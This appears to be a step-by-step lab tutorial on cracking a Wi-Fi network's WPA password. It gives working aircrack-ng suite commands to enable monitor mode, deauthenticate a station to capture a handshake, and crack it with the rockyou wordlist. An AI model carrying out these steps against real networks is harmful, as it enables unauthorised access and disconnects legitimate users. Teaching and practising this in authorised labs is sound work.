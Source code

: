 Network interface cards typically only let you view traffic designated for you. We want to view all traffic. We need to enable monitor mode.

***Task: run the following commands to start monitor mode.***

```sh
sudo airmon-ng check kill
sudo airmon-ng start <interface>
```

(Where `<interface>` is the name if your interface found earlier, such as `wlp3s0`.)

If you run the command `ip a`, then you should see a new interface like `wlp3s0mon`, `wlan0mon`, `wl0mon`, etc. which we will henceforth refer to as `<interfacemon>`.

Now, let's find out the technical details of the target network.

***Task: run the following commands to capture traffic.***

```sh
sudo airodump-ng <interfacemon>
```

Once you see the target network, hit CTRL+C in your terminal to stop `airodump-ng`. Take note of the target network's channel and BSSID. Then, we can start **capturing** (saving) traffic from the target network.

```sh
sudo airodump-ng --bssid <bssid> --channel <channel> -w capture <interfacemon>
```

We need to capture a handshake, which happens when a station first joins a network. Take note of the addresses under the "STATION" column in `airodump-ng`, which will henceforth be referred to as `<station>`. There may be multiple -- it doesn't matter which one.

***Task: in another terminal (do not stop your `airodump-ng` terminal!), run the following command to kick a station off the network and capture a handshake.***

```sh
sudo aireplay-ng -0 4 -a <bssid> -h <station> <interfacemon>
```

In your `airodump-ng` terminal, you may notice a message at the top saying a handshake was captured! If you see this, you can CTRL+C to exit `airodump-ng`. If you don't, try running that `aireplay-ng` command again.

**rockyou** is a massive list of very common passwords. Kali has a copy, but we need to extract it in order to use it.

***Task: run the following commands to copy and extract the wordlist.***

```sh
cp /usr/share/wordlists/rockyou.txt.gz ./
gunzip rockyou.txt.gz
```

Now, we can crack the handshake we captured earlier.

***Task: run the following command to crack the network password.***

```sh
aircrack-ng -w rockyou.txt capture-01.cap
```
